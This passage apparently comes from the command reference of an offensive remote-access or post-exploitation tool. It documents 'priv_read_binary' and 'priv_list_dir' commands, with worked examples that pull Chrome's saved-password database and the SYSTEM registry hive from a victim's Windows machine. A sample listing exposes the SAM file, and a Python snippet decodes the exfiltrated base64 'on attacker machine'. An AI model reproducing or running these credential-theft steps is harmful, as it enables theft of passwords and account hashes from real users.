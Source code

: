 **Use cases:**

- Extract Windows executables for analysis
- Download DLL files from System32
- Retrieve SQLite database files (Chrome passwords)
- Extract binary configuration files
- Download protected executables

**Examples:**

```bash
# Extract cmd.exe
priv_read_binary C:\Windows\System32\cmd.exe

# Download Chrome password database (SQLite)
priv_read_binary "C:\Users\John\AppData\Local\Google\Chrome\User Data\Default\Login Data"

# Extract DLL for analysis
priv_read_binary C:\Windows\System32\advapi32.dll

# Download SYSTEM registry hive
priv_read_binary C:\Windows\System32\config\SYSTEM
```

**Decoding on attacker machine:**

```python
import base64

# Copy the base64 content from output
base64_content = "TVqQAAMAAAAEAAAA..."

# Decode and save
with open("extracted_file.exe", "wb") as f:
    f.write(base64.b64decode(base64_content))
```

---

#### List Admin-Protected Directory

```bash
priv_list_dir <directory_path>
```

**What happens:**

- Lists contents of directories requiring admin access
- Separates files and subdirectories
- Shows file sizes when available
- Uses fallback methods for access

**Response:**

```
=== Admin Directory Listing ===
Directory: C:\Windows\System32\config
Method: direct_listing
Is Admin: False

Directories (3):
  - systemprofile
  - TxR
  - RegBack

Files (15):
  - BBI (size: 65,536 bytes)
  - BCD-Template (size: 25,600 bytes)
  - DEFAULT (size: 262,144 bytes)
  - SAM (size: 262,144 bytes)
```